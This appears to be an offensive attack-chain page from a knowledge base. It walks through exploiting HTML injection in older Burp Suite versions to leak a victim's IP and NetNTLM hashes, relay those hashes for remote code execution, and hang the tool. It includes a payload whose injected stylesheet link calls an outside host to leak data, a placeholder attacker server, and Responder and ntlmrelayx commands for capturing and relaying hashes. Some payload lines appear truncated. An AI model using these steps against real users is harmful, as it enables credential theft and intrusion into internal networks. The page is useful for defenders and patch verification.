

# HTML Injection in Burp Suite Swing Renderer for IP Leak and NTLM Relay RCE

Multi-stage attack chain demonstrating exploitation of HTML injection in Burp Suite's Swing HTML renderer, allowing attackers to force unsolicited network requests that bypass proxy settings, leak the victim's real IP, disclose NetNTLM hashes on Windows, relay for RCE on internal networks, and cause DoS by hanging the tool.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Responder]]
- [[tools/ntlmrelayx]]

### Target Environment

- Burp Suite Professional or Community Edition (pre-2021.2 versions vulnerable)
- Windows platform for NetNTLM impacts
- SMB service on port 445 for hash disclosure/relay
- Attacker controls a server (e.g., http://attacker.com) to receive leaks

### Initial Access Requirements

- Victim must be using Burp Suite to intercept/view/modify HTTP requests
- No credentials needed; exploits tool's rendering behavior
- Network access to victim's machine for social engineering delivery of malicious requests

## Detailed Attack Procedures

### Step 1: Craft Malicious HTTP Request
procedure: [[procedures/Craft-Malicious-HTTP-Request-with-HTML-Injection]]

**Objective**: Create an HTTP request containing HTML injection payload to embed malicious tags that trigger external fetches when rendered.

**Instructions**: Prepare a GET or POST request with injected HTML like  in parameters or body. Use [[commands/GET-Request-with-IMG-Tag-Injection]] for GET example:

```bash
GET /burpsuite_leak_vuln-leak_impact.html?=<html> HTTP/1.1
```

Or [[commands/POST-Request-with-LINK-Tag-Injection]] for POST:

```bash
POST /burpsuite_leak_vuln-leak_impact.html HTTP/1.1
Content-Type: application/x-www-form-urlencoded

=<html><link+rel='stylesheet'+href='http://www.rec2.ml/leak'>
```

**Expected Output**: Malicious request ready to paste into Burp Suite.

**Success Indicators**:
- Payload preserves HTTP structure
- HTML tags intact for rendering

### Step 2: Trigger Rendering in Burp Suite
procedure: [[procedures/Trigger-HTML-Rendering-in-Burp-Suite]]

**Objective**: Have the victim interact with the request in Burp to invoke the Swing HTML parser.

**Instructions**: Victim pastes or intercepts the request in Burp's Proxy, HTTP history, or Repeater tab. Select or modify it to trigger rendering. No specific command; relies on Burp UI interaction.

**Expected Output**: Burp renders the request content, parsing HTML.

**Success Indicators**:
- Request appears in Burp tabs
- HTML content displays (potentially triggering fetches)

### Step 3: Issue Unsolicited Requests via Swing Parser
procedure: [[procedures/Issue-Unsolicited-Requests-via-Swing-Parser]]

**Objective**: Exploit the parser to fetch external resources, bypassing proxies.

**Instructions**: Upon rendering, Swing fetches injected URLs (e.g., http://attacker.com). For NetNTLM, use file:// scheme like  to trigger SMB on port 445. Monitor for bypass of User Options > Upstream Proxy Servers.

**Expected Output**: Hidden requests to attacker server or local SMB.

**Success Indicators**:
- Incoming requests on attacker's server
- SMB negotiation logs on Windows

### Step 4: Capture and Exploit Leaked Data
procedure: [[procedures/Capture-and-Exploit-Leaked-Data-with-Responder-and-ntlmrelayx]]

**Objective**: Log IP leaks, capture NetNTLM hashes, relay for RCE, or sustain connections for DoS.

**Instructions**: Run [[tools/Responder]] to poison and capture hashes: 

```bash
python Responder.py -I eth0
```

Then relay with [[tools/ntlmrelayx]]: 

```bash
python ntlmrelayx.py -tf targets.txt -smb2support
```

For DoS, use open TCP endpoints in payload to hang Burp.

**Expected Output**: Captured IP/headers, NetNTLM hashes, or relayed RCE on internal SMB shares.

**Success Indicators**:
- Attacker server logs victim IP
- Hashes relayed to internal services
- Burp freezes on sustained connections

## Attack Chain Summary

### Key Achievements

1. Bypassed Burp's proxy settings for direct external fetches
2. Leaked real public IP and NetNTLM hashes from victim
3. Enabled RCE via NTLM relay to internal Windows networks
4. Caused DoS by freezing Burp Suite UI

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[LLMNR-NBT-NS Poisoning and SMB Relay]] Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and Relay
- [[Exfiltration Over Alternative Protocol]] Exfiltration Over Alternative Protocol
- [[Endpoint Denial of Service]] Endpoint Denial of Service

### MITRE ATT&CK Tactics

- [[Collection]] Collection
- [[Execution]] Execution
- [[Impact]] Impact

---

*Last updated: 2023-10-01T00:00:00Z*
